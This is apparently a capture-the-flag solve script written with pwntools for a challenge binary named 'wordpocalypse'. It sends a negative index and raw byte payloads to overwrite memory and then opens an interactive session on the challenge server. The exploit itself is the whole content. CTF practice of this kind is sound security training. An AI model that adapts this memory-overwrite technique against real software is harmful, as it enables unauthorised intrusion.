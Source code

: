 ```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./wordpocalypse")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43020)

    return p


def main():
    p = conn()

    # good luck pwning :)
    p.sendline(b"1")

    # p.sendline(b"-35")
    #
    # payload = b"\x14\x40\x00\x00\x00"
    # p.send(payload)
    #
    # payload = b"\x01\x00\x00\x00\xbc"
    # p.send(payload)
    #
    # p.send(b"havoc")

    p.sendline(b"-36")
    payload = b"\x00\x00\x00\x00\xc0"
    p.send(payload)

    payload = b"\x00\x76\x14\x40\x00"
    p.send(payload)

    p.send(b"havoc")

    p.interactive()


if __name__ == "__main__":
    main()
```
